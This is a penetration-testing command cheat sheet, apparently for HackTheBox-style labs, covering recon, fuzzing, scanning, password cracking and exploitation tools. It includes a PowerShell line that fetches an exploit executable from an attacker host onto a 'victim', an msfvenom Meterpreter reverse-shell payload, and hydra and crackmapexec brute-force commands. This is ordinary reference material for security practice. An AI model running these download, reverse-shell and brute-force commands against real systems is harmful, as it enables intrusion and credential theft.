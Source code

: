 # Cul
 
 * curl -X OPTIONS -I <URL> [allow HTTP Methods]

# fuff
 
 * ffuf -u http://URL/FUZZ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/big.txt -mc 200,302

# Wfuzz

 *  wfuzz -c -z file,/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt --hc 404,302,301 http://10.129.206.31/FUZZ.php

 # gobuster [subdomain]

  * gobuster vhost -u http://thetoppers.htb -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-5000.txt --append-domain  //subdomain


# amass

 * amass enum -d clicktheclapbutton50timesplz.com

# sublist3r

 * sublist3r -d techyrick.com -o file.txt
 * sublist3r -d techyrick.com -b

# nslookup 

 * $ nslookup example.com
 * $ nslookup $ip$ 
 * $ nslookup $ip$ $ip$

# dig 
 
 * dig axfr cronos.htb @10.10.10.13
 * dig -x 10.10.10.13 @10.10.10.13

# Whatweb

 * whatweb http://URL -v

# nmap
 
 * nmap -sn 192.168.1.0/24 //scan networks
 * nmap --top-ports 1000 $ip   
 * nmap -iL list.txt
 * nmap -A -T4 cloudflare.co
 * nmap -sV localhost
 * nmap -p- -pn -vv -T4 -n $ip
 * nmap --top-ports 100 -A -sV -T4 $ip
 * sudo nmap -sSVC -p-10000 $ip$

# rustscan || like nmap

 rustscan -a 10.129.184.36 --ulimit 5000 -- -A


# bettercap

 * sudo bettercap
 * net.probe on 
 * net.show


# waybackurls

 * cat program.txt | waybackurls >> urls.txt  //For target scope


# nuclei

 * cat program.txt | nuclei

# John the Ripper

 * john --wordlists=/usr/share/wordlist/rockyou.txt john.txt

# Docker

 * sudo ddocker run --rm -i $Container/Name$

# Metasploit 
  
 * search type:exploit name:smb platform:windows

# searchsploit 

 searchsploit -m %path/file%

# Upload File on Victem

 powershell "(new-object System.Net.WebClient).Downloadfile('http://10.10.14.105:8000/MS10-059.exe', 'MS10-059.exe')"

# PayLoad 

 msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=<LAB IP> lport=<PORT> -f exe > writeup.exe

# hydra 

 hydra -l none -P rockyou.txt 10.10.10.43 https-post-form "/db/index.php:password=^PASS^&remember=yes&login=Log+In&proc_login=true:Incorrect password" -t 64 -V

# crackmapexec

 * crackmapexec smb solarlab.htb -u blake -p pass.txt

# wpscan 

 * wpscan --url example.com